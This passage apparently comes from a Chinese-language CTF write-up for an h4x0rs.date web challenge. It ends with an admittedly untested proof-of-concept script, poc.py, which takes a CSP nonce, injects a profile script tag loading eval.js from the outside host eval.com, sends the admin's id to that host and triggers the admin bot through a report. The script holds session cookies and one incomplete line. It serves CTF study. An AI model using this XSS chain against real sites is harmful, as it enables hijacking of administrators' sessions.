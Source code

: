 4.紧接着，修改user2 的资料，写入evaljs，并且将b.txt中的nonce带上。

5.此时，一套流程便完成了。等待evaljs的执行即可。



### 脚本

大概用了以下几个脚本。写完没来得及做测试环境就关了。最近虽然环境一直开着，但是有些事给耽误复现了。

也就是说.....至今还未复现。



**poc.py**

```python
import re
import requests
import time

# 获取管理员id
def getAdminid():
    return re.search("id=([0-9a-zA-Z]*)\">admin2<" , requests.get("https://h4x0rs.date/profile.php" , cookies={"PHPSESSID":"p28vu9m2h0uj7g04m73uo4fsm6"}).text).group(1)

# 从服务器端a.txt获取nonce
def getNonce():
	return requests.get("http://eval.com/a.txt").text

# 修改资料页内容
def reProfile(ec):
	url="https://h4x0rs.date/profile.php"
	cookie=
	headers={
		"Cookie":"PHPSESSID=8fut6nfo8f449hu3t6ft2qp3s3",
	}

	data={
		"intro":ec,
		"submit":"submit",
	}

	print(ec)
	r=requests.post(url,data=data,headers=headers)

# 发送report
def sendReport():
	codeurl="https://h4x0rs.date/profile.php?id=428222d40f05cfc8f1a1f2b550b29952db37d2016899a9f2e0534f630739c1e4"
	requests.post("https://h4x0rs.date/do_report.php",data={"url": codeurl,"submit": "submit"} , cookies={"PHPSESSID":"p28vu9m2h0uj7g04m73uo4fsm6"})
	print("send url ok!")


# 修改user2资料页中的nonce
def changeNonce(nonce):
	evalcode="<script src=//eval.com/eval.js nonce='"+nonce+"''></script>"
	reProfile(evalcode)


# 首先获取到admin的id，并保存到b.txt
id = getAdminid()
requests.get("http://eval.com/save_b.php?b="+id)

#发送report，从而加载eval.php
sendReport()

```